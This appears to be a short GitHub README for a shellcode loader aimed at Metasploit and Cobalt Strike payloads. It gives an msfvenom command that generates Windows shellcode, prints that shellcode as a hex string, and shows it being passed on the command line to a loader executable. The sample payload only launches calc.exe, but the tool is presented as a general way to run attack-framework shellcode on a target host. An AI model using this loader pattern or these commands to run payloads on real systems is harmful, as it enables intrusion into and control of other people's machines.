 # ShellCode-Loader
## ShellCode Loader for MSF and Cobalt Strike 

#####
`msfvenom -p windows/exec CMD=calc.exe -f raw | xxd -ps`

shellcode：
bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c

`shellcode_Argv.exe bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c`
